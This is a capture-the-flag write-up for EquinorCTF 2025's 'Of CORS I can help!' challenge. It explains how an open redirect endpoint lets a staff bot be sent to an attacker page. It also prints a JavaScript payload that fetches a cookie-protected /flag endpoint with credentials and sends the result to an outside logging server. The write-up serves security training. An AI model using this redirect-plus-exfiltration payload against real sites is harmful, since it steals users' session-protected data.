

# Of CORS I can help! - EquinorCTF 2025 

### ===== Challenge =====
- Jenny is the corporate concierge who fetches intranet pages so employees don’t have to click around. She’ll happily visit whatever link the portal hands her while staying logged in as staff. Take her for a spin and see if that generosity extends to the flag.
### ===== Analysis =====
- In this challenge, we see a website that allows us to introduce a URL for the company's internal chatbot to summarize. However, the page must belong to the company.


- Looking at the source code, I immediately notice 2 interesting endpoints:

``` python
@app.get("/goto")
async def redirect(url: str) -> RedirectResponse:
    return RedirectResponse(url)
```
``` python
@app.get("/flag")
async def get_flag(request: Request) -> JSONResponse:
    if request.cookies.get("session") == STAFF_COOKIE_VALUE:
        flag_value = os.getenv("FLAG", FLAG_DEFAULT)
        return JSONResponse({"flag": flag_value})
    return JSONResponse(status_code=403, content={"error": "forbidden"})
```

- Based on the challenge name, I assumed we are supposed to perform a **CORS (Cross-Origin Resource Sharing)** attack.

- We can bypass the company URL restriction by using the **/goto** endpoint and passing **our exploit in the url parameter**. Let's test it out:


- It works! We can get the bot to visit a non-company website!

### ===== Exploitation =====

- Now we need to host the malicious script that will get the bot to visit /flag while keeping his cookies:

``` javascript
<script>
fetch('https://synapseburnout-305937a7-ofcors.ept.gg/flag', {
credentials: 'include',
mode: 'cors'
}) // visit /flag using the STAFF_SESSION_COOKIE

.then(r => r.text())
.then(data => {
	fetch('http://synapseburnout-291d5154-eptbox.eptc.tf:8000/log?flag=' + encodeURIComponent(data))
	}
); // append the response of /flag to a request sent to my exploit server

</script>
```

- Let's try it:




- **Flag: EPT{CORS_t0tally_trU5t5_y0u}**

team: *synapse_burnout*
writeup by *varanda* - 09/11/2025